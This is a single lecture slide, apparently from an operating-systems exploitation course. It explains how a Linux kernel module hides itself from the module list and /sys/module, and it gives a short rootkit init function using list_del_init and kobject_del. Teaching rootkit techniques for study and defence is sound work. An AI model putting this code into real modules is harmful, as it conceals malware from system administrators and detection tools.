

# Hide a Module (LKM)
/sys/module is a directory that contains information on modules kernel objects and its parameters. In order to hide this directory we can used:
  kobject_del on &THIS_MODULE and point it to the
  kobj. This function simply removes the entry from the
  VFS with sysfs_remove_dir(kobj).
With these two functions, the modules’ __init() function should be:
   static int  __init rootkit(void) {
       list_del_init(&__this_module.list);
       kobject_del(&THIS_MODULE->mkobj.kobj);
       printk(“hiden module \n");
       return 0; }
ITSC304 Operating Systems Exploitation.